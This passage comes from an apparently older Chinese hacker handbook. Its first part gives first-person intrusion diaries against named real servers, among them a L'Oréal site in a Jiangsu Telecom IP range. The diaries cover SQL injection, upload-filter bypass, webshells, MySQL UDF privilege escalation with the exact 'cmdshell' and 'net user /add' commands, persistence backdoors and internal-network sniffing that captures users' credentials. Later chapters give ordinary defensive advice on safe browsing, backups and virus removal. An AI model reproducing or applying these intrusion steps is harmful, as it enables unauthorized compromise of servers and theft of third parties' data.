| 组件名 |
|---|
| Scripting.FileSystemObject |
| wscript.shell |
| ADODB.Catalog |
| JRO.JetEngine |
| Scripting.Dictionary |
| Adodb.connection |
| Adodb.Stream |

后来发现，wscript.shell 组件未删除（其实删了也没事，可以试下能不能传 aspx 或 php 的 webshell，因为这两个 webshell 的权限一般都能执行 cmd 命令），随便浏览下盘符目录，发现设置不算太安全，除了个别目录外，几乎都可以浏览，如图174。

查看管理员，发现系统用户有 2 个，如图175。

4tengser 这个用户很眼熟，经过分析，这台服务器的管理员应该就是 E:\www\4tengWWW 这个目录中网站的管理员，如图176。


现在总结一下思路，远程端口已开且能正常连接，就差提权建个用户。用 **net start** 命令查看，发现装有 mysql 和 serv-u 两个比较好用的第三方服务，如图177，看来提权还是很有希望的。


可是在用 shell 自带的 serv-u 提权功能进行提权时却失败！这下希望就寄托在了 mysql 提权上，于是笔者进行了地毯式的搜索，在一些 php 网站目录下拼命地找一些和 Inc、config、conn 有关的文件，可是未果。

不过忽然发现 E:\www\ 下有一个 UCenter 的目录，如图178。这真是黎明前兆，在这个 UCenter 目录中，找到了 Discuz 的安装信息，可以看到，MySQL 账户密码全部暴露无疑，如图179。


有了 MySQL 的连接账户和密码，接着当然就是进行 MySQL 提权啦！这里使用 SU.PHP 来提权，可以到 **http://dragonkiss.ys168.com** 下载 SU.PHP，如图180。


下载回来后首先就上传 su.php 文件到任意网站目录，然后使用 MySQL 的账户和密码登录，如图181。


提示连接成功！到这一步可以看到，这个服务器离沦陷已经不远了，如图182。

现在笔者使用这个 SU.PHP 的 SQL 命令执行功能，建立了一个系统用户，同时也就拿到了这个服务器的最高权限，如图183。


图183

现在使用新建立的系统账户和密码即可登录 3389 远程终端服务了，这样一台服务器就被攻破了，如图184。


图184

#### 4.3.3 内网服务器沦陷姊妹篇

今天黑友邀约一起测试某日本网站的安全性，花了几分钟时间整理了下作战思路，如下：

- 1. 80 入侵：扫 SA 或者 DBO 的注入点来搞
- 2. 1433 入侵：扫弱口令入侵
- 3. 53 端口：DNS 溢出攻击
- 4. 21 端口：扫 FTP 弱口令
- 5. 445 端口：MS06-040 溢出，一般为 WIN2000 系统
- 6. IIS 写漏洞，可能性比较小

接着大家使用语音开了个小会，安排好各成员的分工后就这么开始了。我在使用啊D注入工具扫描站点注入点的时候，忽然冒出来一个全英文的站，使用啊D注入工具顺利地破解出了后台管理的账号密码，如图185。


图185

不过密码是经过加密的，凭着经验一看就知道此加密非 MD5 加密，而是一种可以被“织梦程序密码转换工具”解密的非主流加密方式。大家可以到 **DRAGONKISS.YS168.COM** 下载密码破解工具（网络上的下载地址皆为死链接），如图186。


图186

于是随便找了个顺眼的密码成功地解了密，如图187，提示密码为 087517，如图188。


图187

图188

好了，账号密码已经搞到手了，接下来就是找后台。一看这注入点就知道后台应该比较容易找，果然，使用啊D自带的管理入口检测功能轻松地扫出了网站后台，并以迅雷不及掩耳之势登录了后台，如图189。


图189

后台给笔者的第一印象就是，一旦拿了 shell 就肯定有戏！因为一看就知道是个很老的后台管理系统，比如大家最喜欢的数据库备份功能都有。既然有这么好的利用漏洞，那还客气什么呢，马上找到一个产品上传的地方，在插入图片处上传了一个 jpg 格式的小马。

但是，当笔者使用数据库备份的时候，发现居然没反应，显示为空白页，可能这个功能已经被管理员处理掉了（后来进 webshell 一看，确实如此！）。

怎么办呢？备份功能已经作废了，那我们是不是还可以试试上传漏洞呢？想到是这么老的后台，十有八九有过滤不严的漏洞。

于是再次在插入图片处填上我们的小马，不过这次要用到一个抓包工具，就是 WSockExpert。运行工具，选择监听插入图片的那个 IE 进程，此时回到 IE 中的上传页面，单击“上传”按钮，显示上传成功，同时我们的 WSockExpert 也成功地截获了上传时的数据包，如图190。


图190

查看这些数据，发现有“POST /upfilea.asp”字段，很熟悉的一个上传组件。于是打开明小子的综合上传功能，一对照，发现类似齐客上传漏洞！于是把提交地址和 cookie 填好后点“上传”，显示上传成功。可是发现，我们的马儿居然是以 UploadFiles/20081061741902.gif 这样的图片格式结尾的，如图191。


图191

入侵一时陷入了困境，前途貌似有点渺茫。正当我心灰意冷的时候，一个突发奇想似的思路映入了我的脑海中，我们可不可以试下双文件上传呢？

思考过程如下：考虑到刚才 asp 小马其实已经通过了服务器的验证并成功地上传到了服务器，只不过没有以我们希望的 asp 格式来保存，那我们看看用双文件上传里的欺骗+截断字符组合来解决这个问题。（有关漏洞的原理，笔者这里就不多分析了，大家可以去看下相关资料，毕竟这里重在如何实战操作！）

于是先在本地修改“上传利用页面.htm”里的“action=\"上传url\"”，如图192。


然后用 IE 打开这个上传利用页，在第一个输入框中选择任意图片一张（用正常的图片来进行欺骗）；在第二个输入框中选择我们要上传的 asp 小马，并在最后加一个空格（空格就用到了截断字符原理），如图193。


最后点“上传”，成功了，并且显示出了它的路径，如图194。


此刻，笔者的心情犹如春雨般滋润，于是趁这得意之时，我打开了小马的地址……正当以为一个 webshell 即将信手拈来的时候，我却迎来了失意！大马上传成功了，但不能被解析，试了好几个目录都不成功，如图195。

怎么办呢？心想小马能上传并执行，那一句话呢？一般遇到这样的情况，都会试下海洋的一句话木马，因为一句话相对于大马来说，代码少，文件小，且穿透力强！事实证明我的想法是可行的，就这样一波三折，终于得到了梦寐以求的 webshell，如图196。


图195


图196

> PS：其实刚才有一点没想到，因为服务器是香港的，后来进了服务器才发现是 WIN2003 英文版，所以刚才小马传大马的时候，大马不能解析是因为我传的是中文版大马，换个英文版的就可以了。

输入密码成功登录，可以看到整个网站的文件列表，如图197。


图197

现在有了 webshell，接着当然是提权拿服务器啦！提权是一门学问，也是一种艺术。其实，提权就是一个搜集服务器有关信息，并利用这些可用信息在服务器上建立一个系统管理员账户的过程。

一般第一步我首先会去看下服务器是否开了 3389 远程桌面，如果开了，那就差不多成功了 30%。这次很幸运，服务器已经开了 3389。

这里有个小经验和大家分享下：就是在连上远程桌面后，笔者一般都会习惯性地连敲 5 下 Shift 键，看看有没有人留下 Shift 后门。

可能我刚才那句心里话被观世音菩萨听到了，你看菩萨显灵了，居然出来一个可爱的 cmd 窗口！这不等于白白捡了一个服务器么，还是个 HongKong 的，心中不由地暗喜，如图198。


图198

于是立马新建一个系统用户，成功登录服务器，如图199。


图199

一般进入服务器后，笔者首先会做的就是留后门，如果辛辛苦苦拿到的服务器万一被管理员删了用户，或者补了漏洞那不是很可惜吗？

我留后门的方式一般有以下四种：

- 1. 伪装一个用户，如 Guest、Helpassistant 等；
- 2. 手工克隆一个隐藏的系统管理员用户；
- 3. 给服务器种一个远控马；
- 4. 留一个 Shift 后门，或者 Win+U 放大镜后门等。

一般有了这 4 种后门，那你的肉鸡就算插翅也难飞了！

其次呢，笔者也会进行一些内网的渗透，这是一把扩大战果的利器。因为一般服务器都是集中放在一个机房里的，所以你得到一台服务器后，就可以把当前这台服务器作为一个跳板来进行一些嗅探，通过 ARP 欺骗等手段来渗透。

一般的嗅探工具有 Cain（笔者最喜欢用最新的 Cain 4.9 英文版）、arpsniffer（DOS 下嗅探的）、ncpharp.exe（跟 arpsniffer 差不多，优点是发包速度快，服务器配置差的时候很好用）等，这些都是比较出名的，当然其他的还有很多，就不一一作介绍了。

说到渗透，当然离不开一些扫描工具，这里我推荐 hscangui.exe，它全面、稳定、精确、快速，支持多线程方式对指定 IP 段（指定主机），或主机列表进行检测，有 GUI 和命令行两种方式。扫 FTP 和 IPC 弱口令的机子很有效，如图200。


图200

当然，内网渗透的手段有很多，常用的还有溢出攻击、收集管理员密码信息、社会工程学等等。

由于和这台服务器同处 C 段的服务器数量不多，且都是些小站，笔者也就没有再进一步地进行渗透了。Cain 嗅到的也都是些本服务器上的站点信息，其中一个还是香港当地的 blog 人气站点，嗅到了好多 blog 用户，有很多香港 MM，如图201、图202。


图201


图202

#### 4.3.4 从官网服务器沦陷到内网穿梭

可能很多人会认为官网一定很难入侵，安全性必定做得很严密，其实不然。前些日子“三鹿”、“蒙牛”等官网频频被黑，三鹿主页还一度成了黑客们的聊天室，而拿下蒙牛，也就是靠一个 eWebEditor 在线编辑器漏洞。

既然如此，那么直入主题，笔者之前安全测试的目标是江苏电信机房的一个 IP 段：58.211.16.1——58.211.16.255。之前已经陆陆续续地拿下了 4、5 台服务器，当时在其中一台服务器上做了一些常用的内网渗透手段，比如嗅探、溢出、扫弱口令，测试 IIS 写漏洞、默认共享漏洞、serv-u 和 flashfxp 的账号收集，以及对管理员密码的社工等等。

在使用啊D网络工具包对内网的端口进行扫描时，发现开了很多 3389 远程终端服务。然后使用 hscan 对整个 C 段进行扫描之后，得到了一些比较实用的弱口令漏洞信息，如图203。


图203

经过扫描，整个 C 段中有 FTP 和 IPC 漏洞的主机都被一一列举出来，并且都直接显示出了账户和密码，其中一个就是现在“遭遇”的巴黎欧莱雅官方网站的服务器（当然，这一切都是笔者在把目标 IP 放到 114best.com 查询以后才发现的，没想到这个小小的 FTP 弱口令居然成了今天这个官网服务器沦陷的致命点）。

首先我在 cmd 下用 `ftp 58.211.16.131` 成功登录，并且知道了服务器用的是 serv-u 7.0，版本还算比较新，使用得到的 FTP 账户密码成功登录，如图204。


图204

因为在命令提示符下显示不够直观，所以立马换用 Windows 界面的 FlashFXP 来登录，如图205。


图205

经过一番浏览，发现貌似是个废弃的 FTP 空间，因为里面虽然有很多网站，可是在百度中按主页里显示的标题来搜查，发现域名对应的网站都已打不开，如图206。


图206

于是又对这些目录进行了一次地毯式的搜索，经过一次又一次的失败，终于一个活生生的网址跳了出来，如图207。

既然有存活的网站，那接下去的入侵思路就很清晰了，可以直接在 FTP 中上传一个 php 网马，然后通过这个 webshell 来进一步提权。

当然也有捷径，因为网站是 php 的，所以只要找到了 mysql 的数据库连接账号，那么服务器几乎就要沦陷了。这不，一下就找到了网站的数据库连接文件，如图208。


图207


图208

现在有了 mysql 连接账号，当然是进行 mysql 提权啦！于是我上传一个 su.php 到站目录（SU.PHP 文件可以到 **DRAGONKISS.YS168.COM** 下载），并成功地连接上了，如图209。


图209

接着就是导出 udf.dll 到 **C:\Windows\udf.dll**，如图210，再用如下 3 个命令来创建函数并添加系统用户。


图210

```sql
create function cmdshell returns string soname 'udf.dll';
select cmdshell('net user user password /add');
select cmdshell('net localgroup administrators user /add');
```

#### 小知识

##### UDF.DLL

装了 MySQL 数据库的主机都有 UDF.DLL 这个文件，可以通过此文件提权。它的原理就是通过 MySQL 的内置函数执行之后，把权限变成系统的 SYSTEM 权限。操作起来就是把 MySQL 数据库中的 udf.dll 文件导到系统目录下，然后通过执行内置函数，这样就有了系统 SYSTEM 权限。

如果服务器没开 3389 终端服务，可以使用 `select cmdshell('e:\3389.exe');` 来打开对方的 3389 终端服务；如果是 Windows 2000 操作系统，还得执行重启，以上命令才有效。不过幸运的是，这个服务器已经开了 3389 终端服务，我们看到了系统登录窗口，如图 211。


图211

正当笔者觉得似乎一切都来得太快太简单的时候，问题终于出现了。在以上命令成功执行后，使用添加的账户登录时，居然登录不了！心想，会不会是管理员把 net.exe 给删了呢？于是，用 net1 试了下，也不行，看来还真的被删了！到这里才感觉到了有点“官方”的意思。

不过，我们现在有 FTP 权限，从本地直接就可以上传一个 net.exe 到服务器，然后利用 net.exe 成功添加了系统用户，这个官网服务器也就这样被攻占下来了，如图 212、图 213、图 214。


图212


图213


图214

本次测试结束后，我已通知了服务器管理员，并补好了相关漏洞，希望大家不要再去尝试攻击。研究技术只是为了提高安全防御能力，技术同时也是一柄双刃剑，只有用到适当的位置，才能发挥它真正的光和热！

### 4.4 小结

本章介绍了黑客测试环境的搭建，通过安装一些存在相关漏洞的网站和论坛程序，读者可以在本机测试黑客是如何进行网络入侵的。

同时，本章通过循序渐进的方法，首先从一个音乐站下载限制的破解着手，让读者体味了破解的快意，并且介绍了如何批量通过 Google 和扫描工具的配合得到网站的 WebShell 权限，最后介绍了如何通过 SQL 漏洞得到服务器权限。

在介绍了这些基础的黑客入侵手法之后，笔者本着串联起知识的理念，系统介绍了一位黑客的三次入侵日记。三篇日记层次分明，分别介绍了黑客是如何得到 WebShell、如何得到服务器权限、如何在服务器的内网中进行进一步的渗透。

黑客知识是一柄双刃剑，通过了解黑客知识，我们可以提高自己的安全防范能力，提高安全意识。同时，这些知识如果运用到了不正确的位置，就会诞生一个个网络犯罪的案例。所以，读者朋友应该本着研究技术、提高安全意识、培养黑客防范能力的角度来学习本章，这样才是体味到了本书的真谛，在攻击与防御中得到对立统一！

## 第五章 防黑大战之铜墙铁骨

### 章节导语


网络江湖风起云涌，“人在江湖漂，哪有不挨刀”，所以本章就介绍如何在网络江湖做一位经得起风浪的舵手！其中谈到了如何备份和保护自己的数据，并且针对网页木马给出了行之有效的防御方法。

### 5.1 安全浏览，放心上网

#### 一、来自搜索的安全

大家一定经常使用搜索引擎搜索自己需要的信息和资料吧？但是在搜索引擎搜索出来的网站中，有很多都是不安全的，而且有些页面可能被黑客挂上了恶意代码，会给我们的上网安全带来巨大的威胁。

这里我给大家推荐一款工具：Finjan Secure Browsing——FINJAN 安全浏览插件，它可以把 Google 上搜索的结果进行安全检测。**注意：此插件只对 Google 上的搜索结果有效，其他搜索引擎无效。**

在下载并且安装了此款工具后，可以看到它以插件的形式附加到了 IE 浏览器上，如图1。


图1

现在通过 www.google.cn 来查询资料和信息时，在搜索结果中，此款插件就会列出网址是否安全。如果安全，则为绿色图标，如图2。如果不安全，那么就会显示为带叉的红色图标，如图3。


图2


图3

这时，如果我们去单击浏览这个不安全的页面，就会弹出一个窗口，提示这个网页不安全！这样，以后我们通过 Google 搜索到一些网页结果，就可以提前知道这些页面是否安全，如果不安全就不要去浏览了。

### 二、浏览器也来 GHOST

##### 1、GreenBorder

GreenBorder Pro 是由美国加州一家公司开发的安全类工具软件，它采用了很久以来反病毒厂商一直在使用的虚拟技术：在当前操作系统中搭建一个虚拟环境，所有的恶意代码都可以随意运行，但它们“接触”不到真正的操作系统。当退出此虚拟环境时，此前所有的操作、设置都将化为乌有。

看起来是不是与 VMware 等虚拟机软件很相似？只不过，GreenBorder Pro 占用系统资源更少，更易于上手。运行它的安装程序，一路点击“Next”完成安装，重新启动系统后，GreenBorder Pro 将随系统自启动。GreenBorder Pro 已经可以支持最新版本的 IE 7.0 和 Firefox 2.0，启动后会发现在浏览器窗口最外层多了一个绿色的边框，说明浏览器已经处于 GreenBorder Pro 的保护之中了，如图4。


图4

为了让 GreenBorder Pro 发挥最大的功效，还需要对默认设置进行调整：右击系统托盘处绿色方框图标，进入“Set GreenBorder Options”选项，在“General”选项卡中勾选“Internet cache”“Cookies”“Browsing history”这三项，这样以后退出 GreenBorder Pro 时会自动清除 IE 缓存文件、Cookies 以及历史记录，从而抹去冲浪的痕迹，如图5。


图5

如果需要还原浏览器，只需要在任务栏的图标中单击选择“CLEAN AND RESET GREENBORDER”（清理和重启 GREENBORDER）就可以了，如图6。


图6

图7

在弹出的这次清理过程中，可以看到清理了 6 个被修改的文件、1 个被执行的程序、65 个注册表键值，如图7。

我们还可以右击任务栏 GREENBORDER 的“GREENBORDER ACTIVITY MONITOR”（活动监视器），可以弹出具体的监视情况，如图8。

##### 2、360安全浏览器


图8

**360安全浏览器下载地址：http://dl.360safe.com/se/360se_chs.exe。**

360 安全浏览器内置高速下载工具，支持多线程下载和断点续传，并且内建木马查杀功能，特征库每日更新，可即时扫描下载文件。其集成的“沙箱”技术，能创建一个虚拟环境，病毒就被控制在这个虚拟的沙盒中。另外，它还具备广告智能过滤、上网痕迹一键清除，保护隐私免干扰。

在浏览下载文件时，它会自动弹出自己内置的下载工具，如图9。


图9

#### 小知识

“沙箱”技术，可以真正做到百毒不侵。所谓的“沙箱”技术，就是将网页程序的执行与真实计算机系统完全隔离，使得网页上任何木马病毒都无法感染计算机系统。

在文件下载完毕后，可以看到它会显示这个文件是否安全，如果文件安全就会显示一个绿色的勾。要显示这个“下载管理”功能，可以依次单击“工具”－“下载管理”－“显示下载管理器”，这样就可以在浏览器的左侧显示出“下载管理”了，如图10。


图10

另外，它的表单填写功能也很实用。首先填写一个表单，然后用 ALT+1 保存当前填写的表单；下次当再需要输入这个表单的内容时，就可以使用 ALT+Q 自动填写当前表单，是不是很便捷？如图11。360 安全浏览器还有很多实用的功能，我就不多介绍了，还是让大家去发掘吧！


图11

#### 三、让网页木马销声匿迹

网页木马应该是所有上网冲浪者共同的大敌，一不小心就会让这个隐形杀手频频得手！这里给大家介绍几个绝杀网页木马的方法，让小菜们不必再为网页木马担惊受怕！

如果你是 Windows XP 系统，那么请来到“`C:\Program Files\Internet Explorer`”这个目录中找到 IE 的主文件，然后在其上按鼠标右键，选择“发送到”－“桌面快捷方式”，如图12。

```cmd
CMD.EXE
net user xiaolong 123 /add
```

现在开始第二个步骤，单击“开始”按钮，选择“运行”，在运行对话框中输入 CMD.EXE，打开命令提示符窗口。接着输入命令：`net user xiaolong 123 /add`，表示添加一个名为 XIAOLONG 的普通用户（这里没有必要去把他升级为管理员权限，普通组权限就可以了），如图13。然后找到刚才新建的 IE 桌面快捷方式，在上面按鼠标右键，选择“运行方式”，如图14。


图12


图13


图14

此时在弹出的“运行身份”对话框中，选择“下列用户”单选钮，然后输入刚才新建的普通用户 XIAOLONG 的账户和密码：XIAOLONG 和 123，如图15。


图15

单击“确定”按钮后，就会弹出 IE 窗口了。以后只要你使用这个 XIAOLONG 账户打开 IE 窗口，浏览任何网页都不怕中网页木马了。

这里给大家解释下这个方法能够绝杀一切网页木马的原因：

Windows XP 系统是一个单用户系统，所以当前的活动用户只能有一个。而刚才的浏览器使用的是 XIAOLONG 这个非活动账户，这样网页木马在通过 XIAOLONG 这个账户进行操作时，是被系统否认的！也就是不予执行。如图16，可以在任务管理器中看到：当前活动的用户只有一个，也就是当前的登录用户 ADMINISTRATOR。


图16

刚才给大家介绍了一招防御网页木马的方法，现在再给大家推荐一款可以防杀网页木马的软件——畅游巡警。

畅游巡警是一款新理念“网页杀毒软件”，由超级巡警团队（sucop.com）2008年出品。它可在不影响你正常浏览的前提下防范挂马网站、带毒网站、钓鱼欺诈等恶意行为，全方位解决上网中的安全隐患。畅游巡警几乎不占用系统资源和网速，完全免费，无任何插件，兼容各种 IE 内核的主流浏览器，是居家上网、防杀网页木马必备的软件。

在下载了畅游巡警之后，双击执行安装操作时，会首先对 IE 临时文件夹进行网页木马扫描，确保软件是在无毒环境中被安装，如图17。


图17

安装完毕后，畅游巡警就会以插件的形式嵌入到 IE 浏览器的工具栏中，单击它就可以对畅游巡警进行各项操作和设置了，如图18。


图18

如果使用浏览器访问被挂马的网站，那么马上就会弹出一个警告窗口，提示当前的网页有网页木马。此时可以单击“不看这个网站了”按钮，这样就可以防止计算机中网页木马病毒了，如图19。


图19

上面给大家介绍了两种非常不错的防杀方法，一个是用户设置，一个是软件法。但是从培养上网的安全意识方面着手，这就要求我们提高上网警惕性，做到勤打补丁。在“开始”菜单的“Windows Update”（Windows 更新）中，可以有针对性地打系统补丁，这可使计算机安全提高，使得网页木马束手无策，如图20。


图20

图21

在选择“Windows Update”后，会自动打开 IE 浏览器到“http://www.update.microsoft.com/windowsupdate/v6/default.aspx?ln=zh-cn”页面，单击页面中的“快速”按钮，就可以快速检测系统有哪些漏洞，从而可以开始有针对性地打上系统补丁，如图21。

### 5.2 给你的数据套上金钟罩

病毒木马肆虐，如果没有三招两式来保护好自己的系统数据，还真的很难在网络江湖上“笑傲”起来。这里就来给大家介绍下如何备份好自己的数据，即使在木马病毒破坏了我们系统的情况下，使得数据依旧。

#### 一、操作系统数据备份

备份的重中之重当然就是操作系统了，所以我们首先来讲解操作系统的备份。说到系统的备份，许多人一定会说用 GHOST。但是 GHOST 通常要在 DOS 下面操作，这对小菜们来说简直就是不方便，所以这里给大家介绍一款可以在 Windows 环境下对系统进行备份操作的工具——ONEKEY GHOST。

运行此款软件之后，在“GHOST 操作”中选择“备份”，在“GHOST 镜像文件路径”那里选择一个保存的文件路径，这个文件就会是后面用来恢复的 GHO 文件，然后单击“确定”按钮即可，如图22。


图22

在备份完成后，可以看到在我们选择的保存路径目录里就有一个 GHO 文件了，比如“F:\Ghost\C_WinXP.GHO”，如图23。


图23

这样就把我们的操作系统（包括了整个 C 盘的文件）备份成功了（会提示自动重启，重启过程中完成系统的备份，此过程不需要人工操作），只要把这个 GHO 文件存放到一个安全的地方，比如自己的移动硬盘中，以后如果数据被误操作就可以很快地还原了。

还原的方法非常简单，运行 ONEKEY GHOST 工具，在主界面中选择“还原”，然后找到 GHO 文件所在的路径，比如“F:\Ghost\C_WinXP.GHO”，如图24。


图24

然后单击“确定”按钮，软件就会自动调用 GHOST 内核开始还原操作。软件此时会提示重启，单击“确定”开始重启，在重启过程中完成还原操作，在此操作中无需人工干预，非常方便。

#### 二、系统文件夹巧备份

系统文件夹中保存了我们的一些配置信息，如果系统还原，这些信息可能就丢失了，很不方便，所以这里就来介绍下如何备份系统文件夹。

##### 1、桌面备份

桌面是我们最常用的一个地方，其实它就是一个系统目录下的文件夹，比如我的桌面就是在“C:\Documents and Settings\Administrator”下面，如图25。


把这个“桌面”文件夹保存到一个安全的地方，比如其他盘符或者闪存中，就可以保证数据的安全了。

##### 2、收藏夹备份

收藏夹也是我们经常使用的 IE 功能，通过收藏夹，可以把自己喜爱的网站添加收集起来到 IE 的菜单中，这样下次访问起来就非常方便，如图26。


其实，收藏夹也是保存在系统目录下面的，比如我的收藏夹路径就是“C:\Documents and Settings\Administrator\Favorites”。使用记事本打开其中一个收藏夹链接，可以看到这个链接其实就是一个 IE 快捷方式，如图27。


现在，只要把这个目录下面的文件保存到一个安全的地方，以后在系统还原之后，再把这些备份的文件重新拷贝到系统用户的收藏夹路径中，就可以实现收藏夹的恢复了。

##### 3、注册表备份

注册表是 Windows 操作系统配置信息的主要保存位置，而且有些软件是写注册表的，如果要实现系统还原之后这些软件还可以正常运行的话，就要对注册表的数据进行备份。

备份方法为单击“开始”，选择“运行”，然后输入“regedit”打开注册表编辑器。接着选择“HKEY_LOCAL_MACHINE”（本地机器）子项进行保存和备份，也就是将当前选择项导出到硬盘里保存为一个文件，如图28。


图28

单击“导出”后，会弹出一个保存对话框，我这里选择保存的文件名为“back_reg.reg”，记住保存的位置！以后如果要还原注册表，到相关位置找到这个文件进行双击，此时会弹出一个确定对话框。单击其中的“是”按钮，即可进行注册表的还原操作了，如图29。


图29

#### 三、聊天工具的数据备份

现在各种聊天工具已经非常普及，它们的出现极大地方便了我们的日常工作和生活，这里以QQ为例，教大家如何保存聊天记录。

QQ自由人是一款QQ资料备份的免费工具，它能把您的QQ个人信息、好友分组、聊天记录、系统设置、聊天室设置等资料保存到自己指定的载体当中。您可以将这些资料进行加密，更能上传保存到自己指定的邮箱！这样的话，无论何时何地，都可以随时将这些资料下载到自己的电脑上，让用户可以非常方便安全地使用和管理聊天记录等资料。

如果您经常在网吧使用QQ，再也不用担心因更换机器而造成聊天记录丢失，也不会再遭遇记不清正在和自己聊天的好友到底是哪位的尴尬，并且下机时可以将资料进行备份，将其从本机上彻底删除，保障您的QQ号码及资料安全。

打开QQ自由人后，选择“备份我的QQ资料”，如图30。单击“下一步”按钮，此时选择QQ文件夹目录，然后选择“备份到我的磁盘”，如图31。


图30


图31

继续单击“下一步”按钮，此时会弹出保存对话框，默认的文件名称为“QQ资料备份（2008-08-11 00-30-20）.zip”，我们选择把这个文件保存后放到U盘或者其他存储设备上，然后单击“下一步”即可完成对QQ聊天记录的备份操作。

接着我们来对聊天记录进行恢复。运行QQ自由人，选择“恢复我的QQ资料”，然后单击“下一步”按钮，此时单击“浏览”按钮，找到QQ的安装路径，然后选择“从我的磁盘恢复”找到备份的文件，如图32。


图32

选择好后单击“下一步”按钮，工具就开始自动恢复你的QQ聊天资料了，非常便捷！

### 5.3 专家手记之对一个新型病毒的查杀流程

我们通过IE浏览网页，或者下载软件进行使用，难免有可能会中病毒。你瞧，我刚刚下载完一个软件，想测试下，结果发现系统速度变得缓慢，有可能就中毒了！

马上打开“我的电脑”，发现多了H、I、J、K四个磁盘，如图33。

打开`wsyscheck`，找到`vexplorer.exe`进程，看到这个DLL文件：`C:\windows\system32\1e0e8eb5.dll`，如图34。

于是上百度查查这是什么病毒。就在我查毒的过程中，`wsyscheck`中增加了几个陌生进程和几十个可疑的DLL文件，如图35。


图33


图34


图35

再次查看IE进程时，我的天啊！已经被挂接了几十个DLL，看来自然都是DLL病毒了！而且是一个具备下载者功能的病毒！如图36。

来到wsyscheck的“服务管理”页，可以看到很多显示为红色的服务。来到“SSDT管理”页，没有发现可疑项，看来这个病毒就是依靠服务来启动自身的，还算不上内核级，如图37。

## 第五章 防黑专家之铜墙铁骨


图36


图37

考虑到这个病毒有下载者功能，所以不由分说首先断开宽带连接，免得这个病毒又下载新的木马，那就“子子孙孙无穷尽也”。

通过wsyscheck的检测，可以看到这个病毒下载了一系列木马。由于木马数量众多，所以使用wsyscheck进行手工清除比较麻烦，这里就请出我们的windows清理助手。

运行windows清理助手，单击“快速扫描”，不一会儿就扫描出了26个可疑对象！可以看到其中很多就是木马程序。最后，单击windows清理助手中的“执行清理”按钮清理病毒，如图38。


图38

现在再次打开wsyscheck，可以看到只剩下三个陌生DLL文件了，看来windows清理助手的功能还是很强大的。对于剩下的三个DLL文件，我们就可以采用手动查杀了。

如果使用“卸载模块并删除文件”功能时wsyscheck出现假死，那么就可以用“全局卸载模块”功能来卸载模块。全局卸载的含义就是把这个DLL在所有进程中进行卸载，如图39。


从进程中卸载或删除DLL文件后，我们还可以到系统的system32目录下面找找有无残留的病毒文件。找到的话可以在wsyscheck中把病毒文件添加到DOS删除列表。在“进程管理”页的“模块路径”中，找到可疑的DLL文件，选择后在其上按鼠标右键，选择“添加到DOS删除列表”，如图40。


这样就把其中挂接的DLL文件添加到DOS删除列表，可以避免下次这个病毒的再生，如图41。


来到“DOS删除文件”页，单击“执行DOS删除”按钮，wsyscheck会自动重启并在DOS环境下删除列表中的文件。

同时，要防止病毒再次被启动，就要删除相关的服务。来到“服务管理”页，删除剩下的一个可疑服务（经过windows清理助手的清理，服务中只剩下一个显示为红色的可疑服务，这样手动删除的劳动量就小了很多了，如图42。


图42

由于此病毒修改了文件关联，所以要使用SREng来修复文件管理，如图43。单击“系统修复”按钮，来到“文件关联”页，将所有项“全部”选择，然后单击“修复”按钮。


图43

最后，在“浏览器加载”项中删除可疑和陌生的浏览器加载项，防止病毒通过浏览器来加载自身，如图44。


图44

删除完后，重启电脑，刚开始出现的H、I、J、K磁盘就消失了，如图45，看来电脑已经恢复正常。如果读者朋友还要做进一步的检测，可以使用360安全卫士，这样就天衣无缝了。


图45

### 5.4 小结

通过对本章的学习，大家应该掌握了如何保护自己的电脑安全，让自己的电脑在“凶险”的病毒木马世界中自由“冲浪”。

## 后序

上网，大家都会，但自身的网络安全观念和常识却相当缺乏，当遇到别有用心者的入侵后，后果将可能会非常严重！针对这种情况，本书特别披露黑客“练功”全过程，并将其入侵技巧和招数大曝光。大家在了解之后即可熟知那些所谓“神秘”的黑客手法，从而高度重视网络安全，并采取相关措施现场自救！

同时，本书从技术分析角度出发，力求面面俱到，介绍到了QQ使用中的黑客技术、网吧限制破解和主机的入侵、木马的使用、网站的渗透和个人电脑的防御等，并且对黑客的每个攻击入侵方法和所有实例都进行了测试，力求让读者朋友身临其境获得感受。

之所以介绍到QQ的使用技巧和黑客技巧，乃是很多技术都是具有连带性的，而QQ作为一款国内广泛使用的IM即时聊天工具，就具有这样的特性。比如登录时可以设置代理服务器，使用过程中查看对方IP地址等，通过对这些基础功能的“开发利用”，我们就会学习到很多网络和计算机基础知识。难怪有前辈说：“学习黑客，从QQ开始”！

而介绍网吧的破解和网吧主机的入侵，乃是考虑到很多读者朋友其实是在网吧上网的（要知道全国有11万家网吧）。针对这么一大群的电脑用户，本书就介绍了如何在网吧实现破解来突破限制。同时，网吧作为一个LAN局域网，也就有内网渗透的含义，通过它可以让读者感受如何在内网进行穿梭，也就是学习网站入侵过程中的内网渗透技巧。

至于木马的使用，乃是考虑到很多读者朋友对远程控制这一块有非常大的兴趣，所以就对木马的前前后后做了方方面面的介绍。

最后，是网站的渗透和个人电脑安全了。很多读者朋友对网络的沦陷和网站的入侵很感兴趣，于是本书专门开辟了一章来介绍这些知识，并且着重对服务器渗透和内网渗透给出了具体的案例。

相信通过这些学习，小菜朋友就可以找到入门高手的大道了。电脑安全乃是一种攻防统一的思想，只有知道了黑客是如何入侵电脑的，才能够有针对性地进行防御！

本书主要由张博（无敌小龙）负责全书的整体构架和主体编写，其中侯金星负责了QQ章节的编写。如果读者朋友希望能够在学习过程中和作者进行交流，可以访问他的个人BLOG：http://hi.baidu.com/pespin，或者到非安全论坛进行讨论（www.nohack.cn/bbs）。


## 黑客防线年册

- 出版发行：非安全
- 作者：张博（无敌小龙）
- 编辑：Python LCX 空气 浪迹天涯 眼镜猴
- 特约编辑：风飘雨 小迷 X.Apache 张宇 冰的原点
- 平面规划：陈黎黎
- 网站：www.nohack.cn
- 网站编辑：空气
- 版权声明：图文版权所有，未经同意，不得转载。
- 投稿信箱：nohack@21cn.com
- 邮购查询：hope_wym@sina.com
- 光盘信箱：CD@nohack.cn
- 定价：30元
- 在线商城：book.nohack.cn
- 淘宝：taobao.nohack.cn
- 拍拍：paipai.nohack.cn